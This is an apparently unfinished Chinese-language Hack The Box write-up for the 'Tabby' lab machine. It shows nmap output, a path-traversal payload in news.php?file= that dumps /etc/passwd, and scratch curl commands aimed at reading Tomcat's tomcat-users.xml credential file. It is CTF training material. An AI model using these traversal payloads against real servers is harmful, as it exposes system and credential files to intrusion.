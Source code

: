 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责

# 服务探测
查看开启端口
```
┌──(root💀kali)-[~/htb/Tabby]
└─# nmap -p- 10.10.10.194 --open                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-30 04:22 EST
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 64733 closed ports, 799 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 249.82 seconds

```

端口详细信息
```
┌──(root💀kali)-[~/htb/Tabby]
└─# nmap -sV -T4  -A -O 10.10.10.194 -p 22,80,8080                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-30 04:33 EST
Nmap scan report for 10.10.10.194
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   292.67 ms 10.10.14.1
2   293.43 ms 10.10.10.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.08 seconds

```

有两个http服务,80是apache，8080是tomcat

## 80端口

80端口打开以后，在```NEWS```栏发现导航到了```http://megahosting.htb/news.php?file=statement"```

把```megahosting.htb```添加到本地host文件

```echo "10.10.10.194 megahosting.htb" >> /etc/hosts```

```NEWS```网页显示:
> We apologise to all our customers for the previous data breach.
> We have changed the site to remove this tool, and have invested heavily in more secure servers

曾经发生过信息泄露，哦？

留意到url里file这个参数，貌似是一个文件名，输入```http://megahosting.htb/news.php?file=../../../../../etc/passwd```

成功回显靶机```/etc/passwd```内容，证明存在LFI

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

存在一个普通用户```ash```

对于不存在，或者没有权限的文件，页面不会有任何返回。

## 8080端口服务

在8080端口首页，暴露出了一些信息，结合80端口的LFI，也许能搞点事情

```
It works !

If you're seeing this page via a web browser, it means you've setup Tomcat successfully. Congratulations!

This is the default Tomcat home page. It can be found on the local filesystem at: /var/lib/tomcat9/webapps/ROOT/index.html

Tomcat veterans might be pleased to learn that this system instance of Tomcat is installed with CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /var/lib/tomcat9, following the rules from /usr/share/doc/tomcat9-common/RUNNING.txt.gz.

You might consider installing the following packages, if you haven't already done so:

tomcat9-docs: This package installs a web application that allows to browse the Tomcat 9 documentation locally. Once installed, you can access it by clicking here.

tomcat9-examples: This package installs a web application that allows to access the Tomcat 9 Servlet and JSP examples. Once installed, you can access it by clicking here.

tomcat9-admin: This package installs two web applications that can help managing this Tomcat instance. Once installed, you can access the manager webapp and the host-manager webapp.

NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.
```

暴露出来网页根目录的路径:```/var/lib/tomcat9/webapps/ROOT/```


```http://10.10.10.194:8080/docs/```显示tomcat版本是```Version 9.0.31```



显示管理用户配置文件在```/etc/tomcat9/tomcat-users.xml```,但是无法显示


在本机搭建了一个同样版本的tomcat，资源在[这里](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.31/bin/apache-tomcat-9.0.31.tar.gz)

查看目录结构
```
┌──(root💀kali)-[~/htb/Tabby/apache-tomcat-9.0.31]
└─# ls
bin           conf             lib      logs    README.md      RUNNING.txt  webapps
BUILDING.txt  CONTRIBUTING.md  LICENSE  NOTICE  RELEASE-NOTES  temp         work

```

conf
```
┌──(root💀kali)-[~/htb/Tabby/apache-tomcat-9.0.31/conf]
└─# ls
Catalina         catalina.properties  jaspic-providers.xml  logging.properties  tomcat-users.xml  web.xml
catalina.policy  context.xml          jaspic-providers.xsd  server.xml          tomcat-users.xsd

```


conf文件夹应该跟```webapps```在同一级，但是浏览器上一直无法回显。。。






<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="tomcat" password="tomcat" roles="admin-gui"/>



CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /var/lib/tomcat9

/var/lib/tomcat9/conf/server.xml



https://downloads.apache.org/tomcat/tomcat-9/v9.0.31/bin/apache-tomcat-9.0.31.tar.gz


/usr/share/tomcat9/conf/tomcat-users.xml

echo 'xxxx  '| curl -X POST -H 'Content-type:text/xml' -d @-  http://10.10.10.194/news.php?file=../../../../../var/lib/tomcat9/conf/tomcat-users.xml

cat 1.xml | curl -X GET -H 'Content-type:text/xml'  http://10.10.10.194/news.php?file=../../../../../var/lib/tomcat9/conf/tomcat-users.xml

curl http://10.10.10.194/news.php?file=../../../../../var/lib/tomcat9/conf/tomcat-users.xml -H "Accept: application/xml" 